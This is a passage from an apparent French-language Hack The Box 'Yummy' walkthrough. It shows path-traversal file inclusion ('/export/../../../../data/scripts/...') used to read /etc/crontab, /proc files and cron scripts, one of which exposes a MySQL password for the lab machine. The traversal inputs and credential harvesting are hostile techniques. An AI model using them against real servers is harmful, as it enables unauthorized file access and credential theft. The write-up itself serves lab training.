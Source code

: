 ![Target users accounts](/images/HTB-Yummy/target_users.png)

Nous essayons de progresser dans notre énumération en vérifiant des fichiers tels que `/proc/self/environ` ou `proc/x/cmdline`. Mais ils donnent tous les deux une erreur `500 Internal Server Error`.

![proc environ test](/images/HTB-Yummy/proc_environ.png)

![proc cmdline test](/images/HTB-Yummy/proc_cmdline.png)

Nous continuons avec le fichier `/etc/crontab`.

![/etc/crontab file](/images/HTB-Yummy/etc_crontab_LFI.png)

#### Cron jobs découverts

Nous trouvons trois cron jobs différents sur la cible.

![custom cron jobs](/images/HTB-Yummy/etc_crontab.png)

```
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

Examinons le contenu de ces scripts.

**app_backup.sh**
```
/export/../../../../data/scripts/app_backup.sh
```

![app_backup cron job](/images/HTB-Yummy/app_backup.sh.png)

```bash
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```

Ce script supprime tout fichier `backupapp.zip` existant dans `/var/www` et crée ensuite une nouvelle sauvegarde du répertoire `/opt/app` au même endroit.

**table_cleaneup.sh**
```
/export/../../../../data/scripts/table_cleanup.sh
```

![table cleanup cron job](/images/HTB-Yummy/table_cleanup.png)

> Nous récupérons les identifiants mysql `chef:3wDo7gSRZIwIHRxZ!`.

```bash
#!/bin/sh

/usr/bin/mysql -h localhost -u chef yummy_db -p'3wDo7gSRZIwIHRxZ!' < /data/scripts/sqlappointments.sql
```
